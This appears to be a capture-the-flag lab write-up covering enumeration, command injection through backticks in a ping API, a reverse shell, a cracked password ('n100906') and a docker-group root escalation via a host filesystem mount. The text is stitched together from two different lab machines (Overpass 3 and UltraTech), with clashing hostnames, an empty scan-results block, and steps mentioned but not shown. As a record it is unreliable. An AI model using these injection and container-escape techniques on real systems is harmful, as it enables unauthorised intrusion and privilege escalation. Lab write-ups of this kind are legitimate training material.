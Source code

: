 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx overpass3.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV overpass3.thm
```

we got these open ports
```bash

```

# FTP (port 21)
we'll try to connect to the FTP server with anonymous account
```bash
$ ftp overpass3.thm                                                                                    
Connected to overpass3.thm.
220 (vsFTPd 3.0.3)
Name (overpass3.thm:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
```

it's not working, let's move to next

# Node.js (port 8081)
we found that there is an api running on port 8081 (custom one ?) : UltraTech API v0.1.3\
we do a feroxbuster and find some interisting URL :
http://ultratech.thm:8081/auth
http://ultratech.thm:8081/ping

in auth, if we send a GET request with login and password as query parameters, we have invalid credentials\
the /ping/ url is interisting : we can set a query parameter ip and it pings the ip\
maybe we can inject one command

# HTTP (port 31331)
On the homepage, we learn there is 4 employees
```bash
Paradox - Our lead web designer, Paradox can help you create your dream website from the ground up\
Elf - Overpass' newest intern, Elf. Elf helps maintain the webservers day to day to keep your site running smoothly and quickly.\
MuirlandOracle - HTTPS and networking specialist. Muir's many years of experience and enthusiasm for networking keeps Overpass running, and your sites, online all of the time.\
NinjaJc01 - James started Overpass, and keeps the business side running. If you have pricing questions or want to discuss how Overpass can help your business, reach out to him!\
```
we found a robots.txt
```bash
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```

if we visit the /utech_sitemap.txt
```bash
/
/index.html
/what.html
/partners.html
```

we exploit the ping API with using the ``` ` ``` char that is interpreted as bash and not filtered\
we do a reverse shell

we found a file 
we crack the password of r00t that is : n100906

finally we found that r00t user is in docker group so we can privesc
```sh
r00t@ultratech-prod:~$ groups
r00t docker
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
```

and we are finally root on docker, we can access filesystem by browsing to /mnt
```bash
r00t@ultratech-prod:~$ docker run -v /:/mnt -it bash
bash-5.0#
```
